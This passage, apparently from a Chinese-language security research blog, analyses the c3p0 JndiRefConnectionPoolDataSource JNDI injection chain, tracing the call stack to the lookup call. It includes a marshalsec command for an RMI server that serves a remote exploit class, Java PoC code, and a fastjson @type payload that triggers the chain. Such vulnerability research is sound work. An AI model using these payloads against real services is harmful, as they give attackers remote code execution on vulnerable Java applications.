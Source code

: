 这里当 `cachedInner` 为空时就会调用 `dereference` ，然后跟进就会发现调用了 `lookup`

![image-20250317175307454](https://bu.dusays.com/2025/03/18/67d95ec47cbb5.png)

这里 `jndiName` 的值由 `setJndiName` 决定

#### poc

借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类 exp.class

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer &#34;http://127.0.0.1:9991/#exp&#34; 9999
```

记得在 9991 端口开 http 

```
package org.example;

import com.mchange.v2.c3p0.JndiRefConnectionPoolDataSource;

public class c3p0_jndi {
    public static void main(String[] args)throws Exception {

        JndiRefConnectionPoolDataSource exp = new JndiRefConnectionPoolDataSource();
        exp.setJndiName(&#34;rmi://localhost:9999/hello&#34;);
        exp.setLoginTimeout(1);

    }
}
```

![image-20250317181450729](https://bu.dusays.com/2025/03/18/67d95ec4829e2.png)

和 hex 那条链子差不多的原理，会用到 setter 方法，那就可以用 fastjson 打

```
        String payload = &#34;{&#34; &#43;
                &#34;\&#34;@type\&#34;:\&#34;com.mchange.v2.c3p0.JndiRefConnectionPoolDataSource\&#34;,&#34; &#43;
                &#34;\&#34;JndiName\&#34;:\&#34;rmi://localhost:9999/hello\&#34;, &#34; &#43;
                &#34;\&#34;LoginTimeout\&#34;:0&#34; &#43;
                &#34;}&#34;;
        JSON.parse(payload);
```

#### 总结

调用栈

```
dereference:112, JndiRefForwardingDataSource (com.mchange.v2.c3p0)
inner:134, JndiRefForwardingDataSource (com.mchange.v2.c3p0)
setLoginTimeout:157, JndiRefForwardingDataSource (com.mchange.v2.c3p0)
setLoginTimeout:309, WrapperConnectionPoolDataSource (com.mchange.v2.c3p0)
setLoginTimeout:302, JndiRefConnectionPoolDataSource (com.mchange.v2.c3p0)
```
